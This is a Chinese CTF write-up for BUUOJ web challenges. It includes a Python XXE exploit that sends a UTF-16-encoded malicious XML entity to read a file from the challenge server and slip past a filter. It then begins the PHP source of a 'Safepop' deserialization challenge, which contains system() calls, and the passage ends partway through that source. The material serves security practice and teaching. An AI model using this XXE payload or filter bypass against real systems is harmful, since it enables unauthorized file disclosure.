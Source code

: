 这套娃题，真的。。。。

`loadXML()`可以加载xml文件

我们构造恶意的xml文件

这是XXE漏洞的利用，发现有过滤，用`UTF-16`编码去绕：

```python
import requests
url = "<http://80.endpoint-ad37f36587884dd8b98756b4f486f8a5.dasc.buuoj.cn:81/1919810415411/lmx.php>"

payload = """<!DOCTYPE xxe[
<!ELEMENT test ANY >
<!ENTITY xxe SYSTEM "file:///fl44449g" >]>
<test>
<name>&xxe;</name>
</test>
"""

payload = payload.encode('utf-16')
r = requests.post(url ,data=payload)
print(r.text)
```

然后base64读flag即可。

##  web3--Safepop

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', true);
highlight_file(__FILE__);
class Fun{
    private $func = 'call_user_func_array';
    public function __call($f,$p){//当调用不可访问的方法⑩
        call_user_func($this->func,$f,$p);
    }
    public function __wakeup(){//反序列化时
        $this->func = '';
        die("Don't serialize me");
    }
}

class Test{
    public function getFlag(){
        system("cat /flag?");
    }
    public function __call($f,$p){
        phpinfo();
    }
    public function __wakeup(){
        echo "serialize me?";
    }
}

class A{
    public $a;
    public function __get($p){
        if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\n";
        }
        return $this->a->$p();
    }
```